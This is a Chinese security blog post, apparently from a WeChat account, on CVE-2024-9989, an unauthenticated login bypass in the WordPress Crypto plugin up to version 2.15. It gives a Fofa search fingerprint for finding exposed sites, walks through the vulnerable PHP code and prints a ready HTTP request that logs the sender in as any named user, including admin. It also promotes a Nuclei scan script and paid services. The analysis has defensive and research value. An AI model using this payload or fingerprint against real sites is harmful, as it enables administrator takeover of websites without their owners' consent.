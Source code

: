 #  【首发 1day】WordPress Crypto 插件存在前台任意用户登录漏洞(CVE-2024-9989)   
原创 Mstir  星悦安全   2025-01-03 04:04  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**WordPress 的 Crypto 插件在 2.15 及以下版本（包括 2.15）中容易受到身份验证绕过攻击。这是由于对 'crypto_connect_ajax_process' 函数中 'crypto_connect_ajax_process：：log_in' 函数的任意方法调用有限。这使得未经身份验证的攻击者可以以站点上的任何现有用户（例如管理员）身份登录（如果他们有权访问用户名）**  
  
**影响版本: <= 2.15**  
  
**Fofa指纹:"wp-content/plugins/crypto/"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5d4sIXRl9LL2U4EPebWibl1wGzS34EnY822QxgsB3pibk6evficmXic4p4wuPbxMj0PyuzfltJdjNibFfA/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5d4sIXRl9LL2U4EPebWibl1wu4hyG7SaMV7rOINrseg63vG9jdT2hib6be5qTqgjdTC8KPib2TibywMmA/640?wx_fmt=other&from=appmsg "")  
  
**访问 /wp-content/plugins/crypto/README.txt 的 Stable tag 可看到当前版本号**  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5d4sIXRl9LL2U4EPebWibl1wCdjMGicY6yJicibCnFVwR7cAp7DDQyerYMfick4DHd28c4bBjkGnPhp9sw/640?wx_fmt=webp&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
**位于 /includes/class-crypto_connect_ajax_register.php 中的Log_in 方法存在逻辑缺陷，能直接登录任意用户且无任何授权，导致漏洞产生. (若要登录管理员账号需知用户名)**  
  
****  
```
public function log_in($username)  {    //---------------------Automatic login--------------------    if (!is_user_logged_in()) {      if ($user = get_user_by('login', $username)) {        clean_user_cache($user->ID);        wp_clear_auth_cookie();        wp_set_current_user($user->ID);        wp_set_auth_cookie($user->ID, true, is_ssl());        $user = get_user_by('id', $user->ID);        update_user_caches($user);        do_action('wp_login', $user->user_login, $user);        if (is_user_logged_in()) {          return"success";        } else {          return"fail";        }      }    } else {      return"wrong";    }  }
```  
  
  
****  
**实际在register 方法有调用该Log_in方法，只需要判断 $the_user_id != 0 即可进入其分支，到达 return $this->log_in($user->user_login);**  
  
****  
```
public function register($id, $param1, $param2, $param3)  {    //flexi_log("ame hree" . $param1);    if (!is_user_logged_in()) {      $user_login = trim($param1);      //Check if this wallet is already linked with other account      $the_user_id = $this->get_userid_by_meta('crypto_wallet', trim($param1));      if ($the_user_id != 0) {        //This wallet is already assigned to one of the user        //Log that user in        $user = get_user_by('id', $the_user_id);        return$this->log_in($user->user_login);      } else {        $existing_user_id = username_exists($user_login);        if ($existing_user_id) {          //echo __('Username already exists.', 'crypto_connect_login');          // flexi_log("Username already exists " . $user_login);          return$this->log_in($user_login);        } else {          //  flexi_log("NEw User " . $user_login);          if (is_multisite()) {            // Is this obsolete or not???            // https://codex.wordpress.org/WPMU_Functions says it is?            // But then, the new REST api uses it. What is going on?            $user_id = wpmu_create_user($user_login, wp_generate_password(), '');            if (!$user_id) {              return'error';            }          } else {            $user_id = wp_create_user($user_login, wp_generate_password());            if (is_wp_error($user_id)) {              // echo $user_id;              // flexi_log(" AM into regiseter " . $param1);            }          }          update_user_meta($user_id, 'crypto_wallet', trim($param1));          return$this->log_in($user_login);        }      }    }  }
```  
  
  
****  
**而调用register 方法的其实是crypto_connect_ajax_process 方法，上面的 add_action 方法中插入了可被WP_ajax调用的钩子，同样不需要鉴权，只需要$method_name = register即可**  
  
****  
```
public function __construct()  {    add_action("wp_ajax_crypto_connect_ajax_process", array($this, "crypto_connect_ajax_process"));    add_action("wp_ajax_nopriv_crypto_connect_ajax_process", array($this, "crypto_connect_ajax_process"));  }publicfunction crypto_connect_ajax_process()  {    $id = $_REQUEST["id"];    $nonce = $_REQUEST["nonce"];    $param1 = $_REQUEST["param1"];    $param2 = $_REQUEST["param2"];    $param3 = $_REQUEST["param3"];    $method_name = $_REQUEST["method_name"];    $response = array(      'error' => false,      'msg' => 'No Message',      'count' => '0',    );    $system_nonce = wp_create_nonce('crypto_ajax');    //  flexi_log($nonce . "---" . $system_nonce);    if (wp_verify_nonce($nonce, 'crypto_ajax') || $method_name == 'register'  || $method_name == 'check') {      $msg = $this->$method_name($id, $param1, $param2, $param3);      // flexi_log("PASSED");    } else {      $msg = "System error";      //  flexi_log("FAIL " . $method_name);    }    $response['msg'] = $msg;    echo wp_json_encode($response);    die();  }
```  
  
  
****  
**Payload:**  
  
****  
```
GET /wp-admin/admin-ajax.php?action=crypto_connect_ajax_process&method_name=register&param1=admin HTTP/1.1Host: 127.0.0.1Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: close
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5d4sIXRl9LL2U4EPebWibl1wlpXUhB8f8Ug8iaicQKV99DzmdwBK0iaJL4Qm2AmgZ5YEL1m68aSre6iajA/640?wx_fmt=other&from=appmsg "")  
  
**成功会显示Success 并赋予Cookie 然后再访问/wp-admin 即可登入管理账号.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5d4sIXRl9LL2U4EPebWibl1wicosEsb0KNeoibjyN4LX1mUu4w17xiaApDiaf5aqpbj1XEJF3y833srxcQ/640?wx_fmt=other&from=appmsg "")  
  
利用脚本:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5d4sIXRl9LL2U4EPebWibl1wgw8LD7CkBRXn3qTDpia559KC9RW1qghgAwqEjPKFtVWoNXYgOfoNWFQ/640?wx_fmt=png&from=appmsg "")  
## 0x02 Nuclei脚本下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
Nuclei脚本  
**关注公众号发送 250103 获取!**  
  
  
  
****  
**进公开群，代码审计，众测，驻场，渗透测试，攻防演练，CNVD证书全网最低价+VX: Lonely3944**  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5erbVnIkcnTFIEZy9wXJARfhbPBGic08dIfyq6cCbZdhlLkQETGMqZfcZ4FxH5meYTWZAReibE9ZZcA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5erbVnIkcnTFIEZy9wXJARfGm5tc2via1EPictNibZVv7KiaQ3fIQQzxTaJibWDFmw6QaNzYicxTR3ye93g/640?wx_fmt=jpeg "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
